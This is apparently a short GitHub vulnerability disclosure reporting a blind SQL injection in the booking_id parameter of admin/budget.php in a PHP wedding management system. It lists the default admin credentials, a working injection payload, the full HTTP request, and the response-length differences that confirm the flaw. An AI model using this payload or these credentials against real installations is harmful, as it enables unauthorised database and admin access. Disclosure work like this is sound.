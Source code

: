 # Wedding Management System v1.0 by codeastr.com has SQL injection

Author： k0xx

The password for the backend login account is: admin@mail.com/Password@123

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: /Wedding-Management/admin/budget.php?booking_id=

Vulnerability location: /Wedding-Management/admin/budget.php?booking_id=,booking_id

[+] Payload: /Wedding-Management/admin/budget.php?booking_id=31%20and%20length(database())%20=%209&user_id=31 // Leak place ---> booking_id

Current database name: dbwedding,length is 9

```sql
GET /Wedding-Management/admin/budget.php?booking_id=31%20and%20length(database())%20=%209&user_id=31 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

When length (database ()) = 8, Content-Length: 814

![image](https://user-images.githubusercontent.com/54017627/167993955-056cb6e9-5510-41a3-9709-c0305068b841.png)

![image](https://user-images.githubusercontent.com/54017627/167993880-25d999c6-8485-44c2-a797-6925b1165e37.png)

When length (database ()) = 9, Content-Length: 9894

![image](https://user-images.githubusercontent.com/54017627/167993912-5f66c673-bb34-4f4a-9744-b28b0f2924bb.png)

![image](https://user-images.githubusercontent.com/54017627/167993833-cceb8c47-7c3f-4df4-b9e2-65d0303d6e6a.png)
